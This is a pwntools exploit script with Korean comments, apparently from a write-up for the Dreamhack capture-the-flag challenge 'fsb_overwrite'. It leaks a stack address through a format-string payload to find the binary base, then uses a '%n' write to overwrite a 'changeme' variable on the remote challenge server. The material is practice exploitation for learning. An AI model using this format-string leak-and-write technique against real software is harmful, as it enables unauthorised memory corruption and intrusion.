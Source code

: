 ```py
from pwn import *

# p = process("./fsb_overwrite")
p = remote("host3.dreamhack.games", 8643)
elf = ELF("./fsb_overwrite")

payload = b"%15$p"  # [rsp + 0x48] 에 저장된 주소를 읽어오기 위함
p.send(payload)

binary_base = int(p.recvline()[:-1], 16) - 0x1293  # [rsp + 0x48]에서 읽어온 주소에서 해당 주소의 오프셋을 빼주어서 바이너리의 베이스 주소를 구함
# addr_changeme = binary_base + elf.symbols['changeme']
addr_changeme = binary_base + 0x401c  # 바이너리의 베이스 주소에서 changeme 변수의 오프셋을 더해줌
payload = b"%1337c%8$n".ljust(16)  # 6번째 인자가 [rsp]이므로, [rsp + 0x10] 은 8번째 인자
payload += p64(addr_changeme)

p.send(payload)
p.interactive()
```

{% endraw %}